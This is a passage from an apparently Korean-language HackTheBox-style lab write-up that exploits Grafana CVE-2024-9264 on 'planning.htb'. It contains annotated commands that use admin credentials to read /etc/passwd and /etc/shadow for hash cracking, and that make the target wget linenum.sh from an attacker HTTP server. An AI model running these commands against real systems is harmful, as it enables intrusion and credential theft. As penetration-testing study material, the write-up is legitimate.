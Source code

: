 - `python3 -m http.server`: Python 내장 HTTP 서버 모듈 실행
- `8000`: 리스닝 포트 번호
- **목적**: 현재 디렉토리의 파일들을 HTTP로 제공 (linenum.sh 전송용)

**현재 디렉토리 상태:**

```
/root/exploit/
├── linenum.sh           # 다운로드된 시스템 정보 수집 스크립트
├── CVE-2024-9264.py     # Grafana 익스플로잇 도구
└── requirements.txt     # Python 의존성 파일
```

### 2단계: 타겟 시스템 정보 수집

```bash
# 타겟의 /etc/passwd 파일 읽기 (사용자 계정 정보)
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -q "SELECT content FROM read_blob('/etc/passwd')" http://grafana.planning.htb


```

**명령어 분석:**

- `-u admin`: Grafana 사용자명
- `-p 0D5oT70Fq13EvB5r`: Grafana 비밀번호
- `-q`: SQL 쿼리 모드 (DuckDB 쿼리 직접 실행)
- `read_blob('/etc/passwd')`: 파일 내용을 바이너리로 읽는 DuckDB 함수
- **목적**: 시스템 사용자 계정 정보 확인

```bash
# 타겟의 /etc/shadow 파일 읽기 (패스워드 해시 정보)
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -q "SELECT content FROM read_blob('/etc/shadow')" http://grafana.planning.htb
```

**명령어 분석:**

- `/etc/shadow`: Linux 시스템의 암호화된 패스워드 저장 파일
- **목적**: 패스워드 크래킹을 위한 해시 값 수집

### 3단계: 파일 전송 (Kali → 타겟)

```bash
# 타겟 서버에서 linenum.sh 다운로드
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "wget http://10.10.16.12:8000/linenum.sh" http://grafana.planning.htb
```

**명령어 분석:**

- `-c`: 명령어 실행 모드 (Command execution)
- `wget http://10.10.16.12:8000/linenum.sh`: 공격자 웹 서버에서 파일 다운로드
- **데이터 흐름**: `[Kali HTTP Server] → [Network] → [Target /root/]`

**내부 동작 과정:**

